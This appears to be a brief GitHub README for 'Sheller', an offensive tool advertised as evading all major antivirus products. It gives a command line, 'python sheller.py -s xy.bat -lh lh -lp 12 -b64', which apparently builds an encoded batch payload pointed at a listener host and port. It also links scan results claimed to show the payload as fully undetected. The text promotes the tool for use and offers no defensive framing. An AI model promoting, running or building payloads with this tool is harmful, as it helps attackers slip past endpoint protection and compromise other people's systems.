 # Sheller

ndows Exploitation Tool to bypass all known Antivirus scanner including Defender, Bitdefender, Kaspersky, McAfee, NANO-Antivirus, Kingsoft, Avast, Avira and many more.

!(https://user-images.githubusercontent.com/73026669/150165109-71b9f841-3b8e-42bd-a502-5d666244eaaf.png)

python sheller.py -s xy.bat -lh lh -lp 12 -b64: <a href="https://www.virustotal.com/gui/file/2fc4ec778c03a989fd74fa878617dc22e7efc35e8d906b51af611562d1b0b418?nocache=1">fully undetected AMSI Scan Results</a>

